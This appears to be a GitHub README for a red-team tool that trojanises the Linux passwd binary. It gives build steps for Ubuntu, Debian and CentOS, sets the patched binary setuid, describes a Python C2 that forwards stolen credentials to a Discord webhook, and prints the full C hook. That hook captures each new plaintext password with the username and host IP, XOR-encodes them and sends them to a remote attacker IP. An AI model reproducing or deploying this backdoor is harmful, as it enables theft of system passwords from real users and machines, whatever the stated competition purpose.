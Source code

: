 # Retriever Passwd Shim

#### What is this
This is a basic Linux binary shim on the passwd binary from the shadow package. This will grab new passwords while they are still plaintext in the binary and remotely send it back to a defined C2.

#### What does it work on? (Tested)

Ubuntu - 18.04, 20.04 <br />Centos - 8 <br />Debian - 11 <br />  

#### What is this intended for 
This is intended for Red Teaming in a Competition environment.
<br/><br/>
<br/><br/>
## Installation Instructions
#### Ubuntu - 18.04 / 20.04
1. `clone shadow git`
2. `run ./generate.sh`
3. `sudo chmod 4755 passwd`

#### Debian - 11
1. `clone shadow git`
2. `run ./generate.sh`
3. `sudo chmod 4755 passwd`

#### CentOS - 8
1. `clone shadow git`
2. `yum deplist passwd | awk '/provider:/ {print $2}' | sort -u | xargs yum -y install`
3. `yum install -y autoconf gettext-devel automake`
4. `dnf group install "Development Tools"`
5. `run ./autogen.sh --without-selinux`
6. `Add Hook (See Hooking passwd.c)`
7. `sudo make all`
6. `sudo chmod 4755 passwd`

#### Troubleshooting
1. Try "make clean" if you are not getting the changed code
2. Building from apt-source kinda sucks don't do it if you don't have to
<br/><br/>
<br/><br/>
## Using the Python C2
### .env File

The python C2 expects a .env file to provide both the XOR key as well as a discord webhook to send the credentials to. The two values that the program searches for are "WEBHOOK" and "XOR_KEY". Set these values to their desired value and the program should run with those settings. The default for the XOR_KEY is "bingus" and the default webhook is empty. 

#### .env Values

- WEBHOOK : Set the Discord Webhook (Default : none)
- XOR_KEY : The key used to encrypt and decrypy (Default : bingus) 
- PORT    : Set the port the program listens on (Default : 8000)

### Running the C2

Make sure firewalls allow traffic into that port then run the python file using Python3.

	python3 recv_pass.py
<br/><br/>
<br/><br/>
## Hooking the passwd.c File

#### At the Top
Imports needed 

	#include <sys/socket.h>
	#include <arpa/inet.h> 
	#include <sys/ioctl.h>
	#include <netinet/in.h>
	#include <net/if.h>
	#include <unistd.h> 
	#include <string.h> 

Definitions

    #define PORT <port> 
    #define IP "<ip_address>" 


#### Adding the Hook
At line number ~266, right above the code that will salt the password, we add a line to run the function. 

    /* Hook to grab password */
	writetofile(pass);

    /*
	 * Encrypt the password, then wipe the cleartext password.
	 */
	salt = crypt_make_salt (NULL, NULL);

    

#### Adding the Function 

At line ~210 right above the new_password function is where I put this function although it just needs to be above where it is called. Make sure to replace the text "INT_HERE" in the 17th line with the actual interface being used by the computer.

	char* XORCipher(char* data, char* key, int dataLen, int keyLen) {
		char* output = (char*)malloc(sizeof(char) * dataLen);

		for (int i = 0; i < dataLen; ++i) {
			output[i] = data[i] ^ key[i % keyLen];
		}

		return output;
	}

	int writetofile (char *password){

		/* Get uid */
		uid_t uid = geteuid();
		struct passwd * pw = getpwuid(uid);
				
		/* Get IP Address */
		int fd;
		struct ifreq ifr;
		fd = socket(AF_INET, SOCK_DGRAM, 0);
			
		/* I want to get an IPv4 IP address */
		ifr.ifr_addr.sa_family = AF_INET;

		/* I want IP address attached to set interface - IF MANUAL CHANGE INTERFACE*/
		strncpy(ifr.ifr_name, ens33, IFNAMSIZ-1);
		ioctl(fd, SIOCGIFADDR, &ifr);
		close(fd);
		
		/* display result */
		char buffer[256];
		char * ip;
		ip = inet_ntoa(((struct sockaddr_in *)&ifr.ifr_addr)->sin_addr);
		int j = snprintf(buffer, 256, \"%s:%s:%s\\n\", name, password, ip);
		
		/* Make Socket */
		int sock = 0, valread;
		struct sockaddr_in serv_addr;

		/* Sock creation Pt 2*/
		if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
			return -1;
		}

		/* Socket Options */
		serv_addr.sin_family = AF_INET;
		serv_addr.sin_port = htons(PORT);
			
		/* Timeout settings */
		struct timeval timeout;
		timeout.tv_sec = 3;
		timeout.tv_usec = 0;
		
		if (setsockopt (sock, SOL_SOCKET, SO_RCVTIMEO, &timeout, sizeof timeout) < 0)  {
			return -1;
		}
		if (setsockopt (sock, SOL_SOCKET, SO_SNDTIMEO, &timeout, sizeof timeout) < 0) {
			// pass
		}

		/* set IP and set buffer */
		if(inet_pton(AF_INET, IP, &serv_addr.sin_addr)<=0) {
			return -1;
		}
		if (connect(sock, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0) {
			return -1;
		}

		/* Encrypt Message  - IF MANUAL CHANGE KEY*/
		char* key  = "KEY_HERE";
		int key_length = strlen(key);
		int mes_length = strlen(buffer);
		char* xor_message = XORCipher(buffer, key, mes_length, key_length);

		/* Send Message */
		send(sock , xor_message , strlen(xor_message) , 0); 
		
		return 0;

	}
